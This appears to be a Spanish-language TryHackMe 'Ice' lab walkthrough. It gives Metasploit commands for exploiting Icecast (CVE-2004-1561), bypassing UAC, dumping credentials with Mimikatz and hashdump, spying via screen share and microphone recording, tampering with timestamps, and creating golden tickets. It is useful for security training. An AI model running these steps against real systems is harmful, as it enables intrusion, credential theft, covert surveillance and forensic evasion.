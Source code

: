 # Guía de Explotación - TryHackMe Ice

## 1. Reconocimiento

### Escaneo inicial con Nmap

Hacemos un escaneo con nmap con el siguiente comando:

```bash
nmap -A -p- -T4 IP_MAQUINA_ATACADA
```

![alt text](./assets/image.png)


#### Explicación de los parámetros:
- `-A`   -> Activar detección de SO, escaneo de scripts y traceroute.
- `-p-`  -> Escanea todos los puertos (1-65535).
- `-T4`  -> Define la velocidad del escaneo (agresivo).

Con este escaneo podemos identificar:

- El puerto donde está corriendo el servicio de Microsoft Remote Desktop (MSRDP).
- El nombre del servicio que se ejecuta en el puerto 8000.
- El nombre del host de la máquina objetivo.

## 2. Obtener acceso

Vuscamos el la siguiente pagia web `https://www.cvedetails.com/` el CVE que es y su impacto, en este caso es el CVE-2004-1561 con un impacto de 6.4.

![alt text](./assets/image-1.png)

Buscamos en la página web [CVE Details](https://www.cvedetails.com/) información sobre la vulnerabilidad. En este caso, encontramos el CVE-2004-1561 con un impacto de 6.4.

Procedemos a utilizar Metasploit para buscar y ejecutar un exploit adecuado. Para ello, iniciamos la consola con el siguiente comando:

```bash
msfconsole
```

Buscamos exploits relacionados con `icecast` mediante:

```bash
search icecast
```

![alt text](./assets/image-2.png)

Seleccionamos el exploit identificado con:

```bash
use 0
```

Verificamos los parámetros requeridos:

```bash
show options
```

![alt text](./assets/image-3.png)

Configuramos los parámetros necesarios:

```bash
set LHOST NUESTRA_IP
set RHOST IP_VICTIMA
show options
```

![alt text](./assets/image-4.png)

Ejecutamos el ataque:

```bash
run
```

## 3. Escalada de Privilegios

Verificamos el usuario que ejecuta el proceso Icecast con:

```bash
ps
```

![alt text](./assets/image-6.png)

Obtenemos información del sistema operativo y su arquitectura:

```bash
sysinfo
```

![alt text](./assets/image-9.png)

Realizamos un reconocimiento más profundo con:

```bash
run post/multi/recon/local_exploit_suggester
```

![alt text](./assets/image-10.png)

Identificamos el exploit `exploit/windows/local/bypassuac_eventvwr` como una posible opción para la escalada de privilegios.

Ponemos en segundo plano la sesión actual:

```bash
background
```
o con la combinación de teclas `CTRL + Z`.

Utilizamos el exploit:

```bash
use exploit/windows/local/bypassuac_eventvwr
show options
```

Seleccionamos la sesión activa:

```bash
set session 1
```

![alt text](./assets/image-11.png)

Configuramos `LHOST` con nuestra dirección IP y ejecutamos el exploit:

```bash
set LHOST NUESTRA_IP
```

![alt text](./assets/image-12.png)

Ejetuamos el exploit 

```bash
run
```

![alt text](./assets/image-13.png)

Verificamos los privilegios adquiridos:

```bash
getprivs
```

Si encontramos `SeTakeOwnershipPrivilege`, hemos logrado la escalada de privilegios.


## 4. Looting (Recolección de Información)

Migramos el proceso a `spoolsv.exe`:

```bash
migrate -N spoolsv.exe
```

![alt text](./assets/image-14.png)

Verificamos el usuario con:

```bash
getuid
```

![alt text](./assets/image-15.png)

Si vemos `NT AUTHORITY\SYSTEM`, hemos obtenido el control total.

Cargamos Mimikatz para la extracción de credenciales:

```bash
load kiwi
```

![alt text](./assets/image-16.png)

Obtenemos todas las credenciales almacenadas:

```bash
creds_all
```

![alt text](./assets/image-17.png)


## 5. Post-Explotación

Volcamos los hashes de contraseñas almacenados en el sistema:

```bash
hashdump
```

![alt text](./assets/image-18.png)

Habilitamos el acceso a escritorio remoto:

```bash
run post/windows/manage/enable_rdp
```

![alt text](./assets/image-21.png)

- **Monitoreo en tiempo real del escritorio del usuario remoto:**

  ```bash
  screenshare
  ```
![alt text](./assets/image-19.png)

- **Grabación del micrófono:**

  ```bash
  record_mic
  ```

- **Modificación de marcas de tiempo de archivos para evadir análisis forenses:**

  ```bash
  timestomp
  ```

- **Persistencia mediante ataques de tickets dorados en Kerberos:**

  ```bash
  golden_ticket_create
  ```

![alt text](./assets/image-20.png)

Este comando requiere de opciones extra para su funcionamiento.


¡Máquina comprometida con éxito!
